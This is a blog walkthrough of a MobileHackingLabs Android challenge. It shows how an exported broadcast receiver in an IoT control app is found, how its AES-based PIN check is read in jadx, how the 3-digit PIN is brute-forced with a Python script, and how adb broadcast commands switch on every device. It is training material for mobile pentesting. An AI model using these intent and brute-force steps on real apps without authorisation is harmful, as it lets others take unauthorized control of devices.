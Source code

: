 ```yaml
---
layout: post
title: "Exploiting Broadcast Receiver-MobileHackingLabs"
categories: Android
excerpt_separator: <!--more-->
---
```


![cover pic](/images/blog8/1.jpg)

Hello Guys...

In this blog, I will walk you through a challenge that I come across. It is all about exploiting a Broadcast receiver vulnerability. The challenge is from a platform called [MobileHackingLabs](https://www.mobilehackinglab.com). It's a really good platform for testing your mobile pentesting skills. So let's get started.

<!--more-->

#### Broadcast Receiver
A Broadcast receiver allows applications to send and receive broadcast messages from other applications and system-wide events. A few events include incoming calls, low battery, system boots up, etc. It is one of the core components of Android. When a broadcast is sent, the system automatically routes broadcasts to apps that have subscribed to receive that particular type of broadcast.<br>
If you want more information about broadcast receivers, [click here](https://developer.android.com/develop/background-work/background-tasks/broadcasts).

Challenge Link: <https://www.mobilehackinglab.com/course/lab-iot-connect>

I have downloaded the APK on my Kali machine and installed it on my Genymotion emulator using the `adb install` command. 

<img src="/images/blog8/2.png" alt="screenshot" width="300"/>

When opening the application, we have two options: **Login** or **Sign Up**. Click on Signup and create a new user. Login with the new user, and you can see two buttons, **Setup** and **Master Switch**.<be>
Clicking on the Setup button, you can see a few devices that we can turn on or off. However, some devices like A/C and Speaker cannot be turned on since we logged in as a guest user.

<img src="/images/blog8/3.png" alt="screenshot" width="300"/>

When you click on **Master Switch**, it is protected by a 3-digit PIN. This button will start all devices with one click, but it can only be accessed through a privileged account.

<img src="/images/blog8/4.png" alt="screenshot" width="300"/>

### Analyzing Code

Open the APK in jadx and navigate to the AndroidManifest file. Search for **receiver**, and you will find a broadcast receiver named **MasterReceiver**, which is exported to true without permission restrictions, making it vulnerable to unauthorized access.

![screen shot](/images/blog8/5.png)

Further analysis revealed the presence of a class called **CommunicationManager** when searching for **MasterReceiver** within the Text Search feature of JADX.

![screen shot](/images/blog8/6.png)

Inside the onReceive method, the code checks if the intent's action is equal to the string **MASTER_ON**. If it is, the code extracts an integer extra from the intent with the key **key**. If the context2 parameter is not null and the **check_key** method from the **Checker** class returns true for the extracted integer, the code calls the **turnOnAllDevices** method on the CommunicationManager. It also displays a toast message saying **All devices are turned on**. If the check_key method returns false, the code displays a toast message saying **Wrong PIN!!** instead.

#### Checker class

![screen shot](/images/blog8/7.png)

Let's Break it down.

{% highlight kotlin %}
private static final String algorithm = "AES";
private static final String ds = "OSnaALIWUkpOziVAMycaZQ==";
{% endhighlight %}
- String **algorithm**: represents the encryption algorithm used, which is "AES"
- String **ds**: represents the encrypted data, which is a Base64-encoded string.

{% highlight kotlin %}
public final boolean check_key(int key) {
    try {
          return Intrinsics.areEqual(decrypt(ds, key), "master_on");
    } catch (BadPaddingException e) {
           return false;
    }
}
{% endhighlight %}
The check_key method takes an integer key as input and returns a boolean indicating whether the key is valid. It calls the **decrypt** method, passing the ds string and the key as arguments, and if the decryption is successful it returns **true**, and if it fails it returns **false**.

{% highlight kotlin %}
public final String decrypt(String ds2, int key) {
  Intrinsics.checkNotNullParameter(ds2, "ds");
  SecretKeySpec secretKey = generateKey(key);
  Cipher cipher = Cipher.getInstance(algorithm + "/ECB/PKCS5Padding");
  cipher.init(2, secretKey);
  if (Build.VERSION.SDK_INT >= 26) {
        byte[] decryptedBytes = cipher.doFinal(Base64.getDecoder().decode(ds2));
        Intrinsics.checkNotNull(decryptedBytes);
        return new String(decryptedBytes, Charsets.UTF_8);
  }
    throw new UnsupportedOperationException("VERSION.SDK_INT < O");
}
{% endhighlight %}
This method takes two arguments: **ds2** (the encrypted data), and key. It decrypts the ds2 string using the key and returns the decrypted string. It checks if the ds2 parameter is not null, it will generate a **secretkeyspec** object from the key using the **generatekey** method. Then it creates another object called **cipher** with the specified algorithm ("AES/ECB/PKCS5Padding"). There is one more condition If the Android API level is 26 or higher, it decrypts the ds2 string using the Cipher object and returns the decrypted string as a UTF-8 encoded string, if not it throws an **UnsupportedOperationException**.

### Exploit

As the Receiver is exported to true, potential exploitation can be performed by crafting and sending an intent using **adb** with necessary action and extras. <br>
Open the terminal and enter the following command:

{% highlight bash %}
adb shell am broadcast -a MASTER_ON --ei key 123
{% endhighlight %}

![screen shot](/images/blog8/8.png)

Upon submitting an incorrect pin, a **Wrong Pin** response is returned. If we obtain the correct PIN, we can use the Master Switch to turn on all devices without needing the Master account. Below is a Python script created using ChatGPT to brute force a 3-digit pin.

{% highlight python %}
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
from base64 import b64decode

# Encoded string and target value
encoded_ds = "OSnaALIWUkpOziVAMycaZQ=="
target_string = "master_on"

# Iterate through all possible keys
for key_int in range(1, 1000001):
    try:
        # Decrypt the encoded string with the current key
        decoded_ds = b64decode(encoded_ds)
        key_bytes = str(key_int).encode("utf-8").ljust(16, b'\0')[:16]
        cipher = AES.new(key_bytes, AES.MODE_ECB)
        decrypted = unpad(cipher.decrypt(decoded_ds), AES.block_size).decode("utf-8")

        # Check if the decrypted value matches the target
        if decrypted == target_string:
            print(f"Found key: {key_int}")
            break
    except Exception as e:
        continue
else:
    print("Key not found within limit.")
{% endhighlight %}

Copy the code to your local machine and run the script.

![screen shot](/images/blog8/9.png)

Next, open the terminal and enter the adb command we used earlier, this time with the **Correct PIN** that we just brute-forced. <br>
{% highlight bash %}
adb shell am broadcast -a MASTER_ON --ei key 345
{% endhighlight %}

![screen shot](/images/blog8/10.png)

You should see a message saying **ALL Devices are Turned on**. Now click on the Setup button and observe that all devices are turned on.

![screen shot](/images/blog8/11.png)

***Happy Pentesting..!***
